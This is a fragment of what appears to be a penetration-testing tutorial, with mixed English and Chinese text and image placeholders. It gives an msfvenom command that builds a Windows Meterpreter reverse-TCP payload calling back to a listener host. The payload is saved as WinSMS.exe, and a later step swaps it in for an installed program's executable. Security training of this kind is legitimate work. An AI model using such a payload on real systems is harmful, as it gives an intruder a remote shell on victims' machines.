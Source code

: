     ```
    msfvenom -p windows/meterpreter/reverse_tcp       LHOST=192.168.157.151 LPORT=443 -f exe > WinSMS.exe

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_024.jpg)

3.  We download this executable and replace it with the `WinSMS.exe` file in the folder where the software is installed:

    ![How to do it...](img/image_09_025.jpg)
